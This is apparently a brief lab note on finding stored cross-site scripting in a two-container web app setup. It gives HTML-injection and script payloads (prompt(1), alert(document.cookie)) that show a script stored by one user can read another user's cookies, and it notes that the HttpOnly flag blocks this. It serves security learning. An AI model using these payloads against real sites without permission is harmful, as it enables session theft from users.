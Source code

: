 
Spawn 2 containers

set cookie in one of the containers

to check if cookie is set
1)console.log(document.cookie)
2)Dev tool -> Storage ->Cookie

to check for XSS first try HTML injection coz that is likely to work


in the input field
```html
<h1>test</h1>
```

html injection working now try for XSS

```js
<script>prompt(1)</script>
```

go in other container and we get prompt so it is stored

to get the cookie of other users

```js
<script>alert(document.cookie)</script>
```


if http only flag set, JS cannot access the cookies
